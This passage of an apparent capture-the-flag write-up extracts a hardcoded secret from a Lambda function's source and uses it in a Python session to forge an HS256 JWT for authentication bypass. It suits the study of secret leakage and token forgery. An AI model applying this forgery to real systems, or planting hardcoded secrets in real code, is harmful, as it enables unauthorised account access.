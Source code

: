 
It comes as a Zip Archive, which contains `lambda_function.py`:

    
    
    oxdf@hacky$ unzip code
    Archive:  code
      inflating: lambda_function.py  
    

The code itself isn’t that interesting:

    
    
    import json
    
    secret='RrXCv`mrNe!K!4+5`wYq' #apigateway authorization for CR-124
    
    '''Beta release for tracking'''
    def lambda_handler(event, context):
        try:
            id=event['queryStringParameters']['order_id']
            if id:
                return {
                   'statusCode': 200,
                   'body': json.dumps(str(resp)) #dynamodb tracking for CR-342
                }
            else:
                return {
                    'statusCode': 500,
                    'body': json.dumps('Invalid Order ID')
                }
        except:
            return {
                    'statusCode': 500,
                    'body': json.dumps('Invalid Order ID')
                }
    

It seems like perhaps the function will someday be used in the tracking for
the application, but for now, it doesn’t do much. It does have a `secret`
variable though.

### Access Costume Site

I can guess (hope) that perhaps the same secret used in this lambda function
is used to sign the JWT for the site. I haven’t been able to get a cookie to
verify it, so I’ll just forge one and see if it’s accepted. What’s important
about the cookie is that it contain a `username` field.

    
    
    oxdf@hacky$ python
    Python 3.8.10 (default, Nov 26 2021, 20:14:08) 
    [GCC 9.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import jwt
    >>> secret = "RrXCv`mrNe!K!4+5`wYq"
    >>> jwt.encode({"username":"0xdf"}, secret, algorithm='HS256')
    b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IjB4ZGYifQ.0kQYuCxPdN6bYT66kYg3lF-fjFRU9YvI30hNN4t77RE'
    